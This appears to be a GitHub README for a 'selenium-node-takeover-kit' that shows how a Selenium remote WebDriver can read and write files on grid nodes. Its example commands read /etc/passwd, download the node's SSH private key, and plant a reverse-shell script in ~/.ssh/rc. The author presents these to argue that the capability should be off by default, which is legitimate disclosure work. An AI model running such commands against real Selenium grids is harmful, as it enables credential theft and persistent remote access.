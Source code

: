 # selenium-node-takeover-kit
These examples are to demonstrate possible issues with Selenium’s current design and configuration.

When a Selenium test interacts with a remote web driver, it can do the same things a user interacting with a local browser can do on the remote selenium node. Namely reading local files
```bash
examples/selenium_node_cat.py -u http://selenium-hub.lan:4444/wd/hub -r /etc/passwd
examples/selenium_node_download.py -u http://selenium-hub.lan:4444/wd/hub -r ~/.ssh/id_rsa -l ./nodes_rsa
```

and writing local files
```bash
examples/selenium_node_upload.py -u http://selenium-hub.lan:4444/wd/hub -r ~/.ssh/rc -l ./reverse_shell.sh
```
in the context of the running service. I believe these abilities should be something that can be turned off, and turned off by default.
